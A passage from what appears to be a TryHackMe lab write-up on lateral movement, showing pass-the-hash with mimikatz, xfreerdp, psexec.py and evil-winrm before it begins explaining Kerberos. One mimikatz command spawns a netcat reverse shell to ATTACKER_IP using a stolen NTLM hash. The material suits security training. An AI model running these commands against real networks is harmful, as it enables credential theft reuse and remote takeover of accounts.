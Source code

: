 We can then use the extracted hashes to perform a PtH attack by using mimikatz to inject an access token for the victim user on a reverse shell (or any other command you like) as follows:

```
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```

Notice we used `token::revert` to reestablish our original token privileges, as trying to pass-the-hash with an elevated token won't work. 

This would be the equivalent of using `runas /netonly` but with a hash instead of a password and will spawn a new reverse shell from where we can launch any command as the victim user.

To receive the reverse shell, we should run a reverse listener on our AttackBox:

![task5-terminal1](./images/task5-terminal1.png)

Interestingly, if you run the whoami command on this shell, it will still show you the original user you were using before doing PtH, but any command run from here will actually use the credentials we injected using PtH.

**Passing the Hash Using Linux**:

If you have access to a linux box (like your AttackBox), several tools have built-in support to perform PtH using different protocols. Depending on which services are available to you, you can do the following:

_Connect to RDP using PtH_:

```
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```

_Connect via psexec using PtH_:

```
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
```

**Note**: Only the linux version of psexec support PtH.

_Connect to WinRM using PtH_:

```
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
```

### Kerberos Authentication

Let's have a quick look at how Kerberos authentication works on Windows networks:

1. The user sends his username and a timestamp encrypted using a key derived from his password to the **Key Distribution Center (KDC)**, a service usually installed on the Domain Controller in charge of creating Kerberos tickets on the network.
